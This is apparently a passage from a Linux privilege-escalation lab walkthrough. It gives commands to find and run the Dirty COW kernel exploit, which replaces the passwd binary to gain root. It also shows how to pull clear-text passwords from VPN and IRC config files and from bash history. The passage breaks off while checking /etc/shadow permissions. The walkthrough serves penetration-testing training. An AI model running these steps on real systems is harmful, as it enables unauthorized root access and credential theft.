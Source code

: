# Kernel Exploits

### Detection

1. In command prompt type:

**home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh**

2. From the output, notice that the OS is vulnerable to “dirtycow”.

###  Exploitation

1. In command prompt type:

**gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w**

2. In command prompt type: **./c0w**

**Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.**

3. In command prompt type: **passwd**

4. In command prompt type: **id**

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary

#  Stored Passwords (Config Files)                            

1. In command prompt type: **cat /home/user/myvpn.ovpn**

2. From the output, make note of the value of the “auth-user-pass” directive.

3. In command prompt type: **cat /etc/openvpn/auth.txt**

4. From the output, make note of the clear-text credentials.

5. In command prompt type: **cat /home/user/.irssi/config | grep -i passw**

6. From the output, make note of the clear-text credentials.

#  Stored Passwords (History)                            

1. In command prompt type: **cat ~/.bash_history | grep -i passw**

2. From the output, make note of the clear-text credentials.

#  Weak File Permissions                            

### Detection

1. In command prompt type:

**ls -la /etc/shadow**
